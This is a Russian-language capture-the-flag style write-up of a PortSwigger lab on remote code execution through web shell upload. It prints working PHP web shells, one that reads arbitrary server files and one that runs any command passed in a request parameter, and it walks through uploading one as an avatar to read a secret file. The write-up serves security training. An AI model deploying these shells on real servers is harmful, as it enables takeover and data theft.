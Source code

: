 # Remote code execution via web shell upload

## Theory

<h3>Использование неограниченной загрузки файлов для развертывания веб-шелла</h3>

С точки зрения безопасности наихудший возможный сценарий — это когда веб-сайт позволяет загружать скрипты на стороне сервера, такие как файлы PHP, Java или Python, а также настроен на их выполнение в виде кода. Это упрощает создание собственной веб-оболочки на сервере.

Если вы можете успешно загрузить веб-оболочку, вы фактически имеете полный контроль над сервером. Это означает, что вы можете читать и записывать произвольные файлы, извлекать конфиденциальные данные и даже использовать сервер для направленных атак как на внутреннюю инфраструктуру, так и на другие серверы за пределами сети. Например, следующий однострочный PHP-код можно использовать для чтения произвольных файлов из файловой системы сервера:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

После загрузки отправка запроса на этот вредоносный файл вернет содержимое целевого файла в ответ.

Более универсальная веб-оболочка может выглядеть так:
```
<?php echo system($_GET['command']); ?>
```

Этот сценарий позволяет вам передать произвольную системную команду через параметр запроса следующим образом:
```
GET /example/exploit.php?command=id HTTP/1.1
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/1.png)

Логинимся c имеющимися данными. У нас есть возможность загрузки аватара пользователя. Загружаем эксплоит. Получаем сообщение об успешной загрузке файла.

Код эксплоита:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/3.png)

Обновляем страницу. Теперь мы можем найти наш запрос. Отправляем запрос и получаем содержимое файла.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/5.png)

Подтверждаем ответ и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/6.png)
